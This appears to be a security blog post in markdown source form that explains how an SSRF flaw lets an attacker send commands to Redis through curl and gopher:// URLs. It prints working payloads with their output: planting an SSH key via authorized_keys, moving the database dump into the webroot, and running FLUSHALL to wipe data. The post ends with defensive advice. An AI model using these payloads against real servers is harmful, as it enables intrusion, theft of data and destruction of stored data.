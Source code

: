 ```yaml
---
layout: blog-single
title:  curl Based SSRF Exploits Against Redis
description: A look at what's possible with curl access to Redis via an SSRF vulnerability
date: August 14, 2017
image: /img/blog/ssrf-redis/curl-redis-ssrf-hacking.jpg
image_alt: "Exploiting Redis via cURL"
image_width: 2200
image_height: 1100
tags: [Security, Redis, Bug Bounty]
selected: true
position: 10
related_posts:
- "Java Serialized Object Detection"
- "Google Subdomain Discovery For Sites Using Naked Domain"
- "Findings on XML External Entity Behavior in PHP"
---
```


[SSRF (server side request forgery)](https://www.owasp.org/index.php/Server_Side_Request_Forgery) is a type of vulnerability where an attacker is able trick a remote server into sending unauthorized requests. SSRF opens the door to many types of undesirable things such as information disclosure, DoS and RCE. In this post, we'll take a look at the types of exploits that are achievable when we have access to curl Redis via SSRF.

<!-- excerpt_separator -->

### Getting Redis To Execute Our Commands

As documented in [a blog post titled "Trying to hack Redis via HTTP requests" by the French company, Agarri](http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) if simply we curl Redis, it will interpret each line in the HTTP request as a command....

```
$ curl -v 127.0.0.1:6379 --max-time 1
* Rebuilt URL to: 127.0.0.1:6379/
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
> GET / HTTP/1.1
> Host: 127.0.0.1:6379
> User-Agent: curl/7.52.1
> Accept: */*
>
-ERR wrong number of arguments for 'get' command
-ERR unknown command 'Host:'
-ERR unknown command 'User-Agent:'
-ERR unknown command 'Accept:'
* Operation timed out after 1002 milliseconds with 148 bytes received
* Curl_http_done: called premature == 1
* stopped the pause stream!
* Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 148 bytes received
```

<div class="tout tout--secondary">
<p>:bulb: <strong>TIP</strong>: Note the usage of the <code>max-time</code> flag here. It's important to understand that <a href="https://redis.io/topics/clients#client-timeouts">by default Redis won't close the connection</a> and, <a href="https://curl.haxx.se/libcurl/c/CURLOPT_TIMEOUT.html">without specifying a timeout, neither will curl</a>.</p>
</div>

[Agarri's post](http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) suggests that we can use HTTP request headers or the request POST body to send malicious payloads. While this sounds good in theory, I couldn't get it to work (if you see something I've done wrong let me know!)...

```
$ curl --trace-ascii /dev/stdout -X POST -H "Content-Type: text/plain" --data "CONFIG SET maxmemory 5" http://127.0.0.1:6379/ --max-time 1
Note: Unnecessary use of -X or --request, POST is already inferred.
== Info:   Trying 127.0.0.1...
== Info: TCP_NODELAY set
== Info: Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
=> Send header, 125 bytes (0x7d)
0000: POST / HTTP/1.1
0011: Host: 127.0.0.1:6379
0027: User-Agent: curl/7.52.1
0040: Accept: */*
004d: Content-Type: text/plain
0067: Content-Length: 22
007b:
=> Send data, 22 bytes (0x16)
0000: CONFIG SET maxmemory 5
== Info: upload completely sent off: 22 out of 22 bytes
<= Recv data, 29 bytes (0x1d)
0000: -ERR unknown command 'POST'
<= Recv data, 176 bytes (0xb0)
0000: -ERR unknown command 'Host:'
001e: -ERR unknown command 'User-Agent:'
0042: -ERR unknown command 'Accept:'
0062: -ERR unknown command 'Content-Type:'
0088: -ERR unknown command 'Content-Length:'
-ERR unknown command 'POST'
-ERR unknown command 'Host:'
-ERR unknown command 'User-Agent:'
-ERR unknown command 'Accept:'
-ERR unknown command 'Content-Type:'
-ERR unknown command 'Content-Length:'
== Info: Operation timed out after 1002 milliseconds with 205 bytes received
== Info: Curl_http_done: called premature == 1
== Info: stopped the pause stream!
== Info: Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 205 bytes received
$ redis-cli
127.0.0.1:6379> config get maxmemory
1) "maxmemory"
2) "999999999999999"
127.0.0.1:6379>
```

Fortunately, there's another option. Using a trick I learned about in [an SSRF report to Imgur's bug bounty on hackerone](https://hackerone.com/reports/115748), we can send requests to Redis using [the Gopher protocol](https://en.wikipedia.org/wiki/Gopher_(protocol)). 

This is approach is likely more versatile than using the POST body or HTTP request headers in an SSRF scenario as it's more likely that we'll have complete control over the endpoint (including request protocol) than it is that we'll be able to force the HTTP request method, manipulate the post body, or manipulate request headers.

Here's what it would look like to get Redis to divulge its `maxmemory` configuration value.

```
$ curl gopher://127.0.0.1:6379/_CONFIG%20GET%20maxmemory --max-time 1
*2
$9
maxmemory
$15
999999999999999
curl: (28) Operation timed out after 1002 milliseconds with 41 bytes received
```

### What Can We Do With It?

The ability to send commands to Redis opens the door to many nasty exploits. Here are a few...

#### Manipulation of the configuration values to upload a public key

This technique was outlined in [a blog post titled "A few things about Redis security" by Redis' creator Salvatore Sanfilippo (aka antirez)](http://antirez.com/news/96). If we know the the name of a user on the server, we could set the Redis' `dir` to that user's `.ssh/` directory and set the `dbfilename` to `authorized_keys`. We can use `%0D%0A` to issue multiple commands in a single request...

```
$ curl -v gopher://127.0.0.1:6379/_CONFIG%20SET%20dir%20/home/mpchadwick/.ssh%0D%0ACONFIG%20SET%20dbfilename%20authorized_keys --max-time 1
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
+OK
+OK
* Operation timed out after 1002 milliseconds with 5 bytes received
* Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 5 bytes received
```

Next we would use the `SET` command to get Redis to save our public key to its memory, and then finally issue a `SAVE` command to write the public key to the `authorized_keys` file.

This is pretty much game over as the attacker can now SSH directly to the server!

#### Manipulation of the `dir` configuration value to steal the database

With the ability to manipulate the `dir` value, another option would be to update the `dir` to a publicly accessible location (the webroot). For example the attacker could try `/var/www/html`,  the default webroot for Apache on most servers.

```
$ curl gopher://127.0.0.1:6379/_CONFIG%20SET%20dir%20/var/www/html --max-time 1   
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
+OK
* Operation timed out after 1002 milliseconds with 5 bytes received
* Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 5 bytes received
```

The attacker could then trigger another `SAVE` to place `dump.rdb` into the webroot and download the entire database. 

It's very likely that this will give them access to sensitive information such as customer PII (personally identifiable information), database connection credentials or credentials for external API services.

#### DoS

There are countless DoS opportunities with the ability to send arbitrary commands to the Redis instance. The first thing that springs to mind is the repeatedly send `FLUSHALL` commands, preventing Redis from ever effectively storing anything.

```
$ curl -v gopher://127.0.0.1:6379/_FLUSHALL --max-time 1
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
+OK
* Operation timed out after 1002 milliseconds with 5 bytes received
* Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 5 bytes received
```

### Takeaways

As we can see, SSRF can quickly become fatal if the attacker is able to send requests to the Redis instance. In addition to being mindful of potential SSRF exploits within the application codebase during the code review process, it is not advisable to solely rely on network layer security to protect your Redis instance. [Redis' built in AUTH feature](https://redis.io/commands/auth) allows you require a password to speak to Redis which adds an additional layer of protection against potential attackers.
